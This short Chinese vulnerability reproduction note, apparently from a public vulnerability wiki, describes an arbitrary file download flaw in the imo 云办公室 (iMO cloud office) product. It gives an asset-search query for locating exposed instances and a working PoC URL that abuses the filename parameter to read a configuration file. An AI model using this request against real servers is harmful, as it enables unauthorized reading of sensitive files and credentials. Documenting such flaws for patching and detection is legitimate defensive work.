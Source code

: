 # imo 云办公室 Imo_DownLoadUI.php 任意文件下载漏洞

## 漏洞描述

imo 云办公室 由于 /file/Placard/upload/Imo_DownLoadUI.php 页面 filename 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

<a-checkbox checked>imo 云办公室</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="iMO-云办公室"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1645878070559-eaed5393-f82d-4b08-8b95-54e91e5ceae0-20220313162942240.png)

验证POC

```javascript
/file/Placard/upload/Imo_DownLoadUI.php?cid=1&uid=1&type=1&filename=/OpenPlatform/config/kdBind.php
```

![img](/assets/PeiQi-Wiki/img/1645878129060-d2500f94-aad9-48fd-9202-9b618cc0f886.png)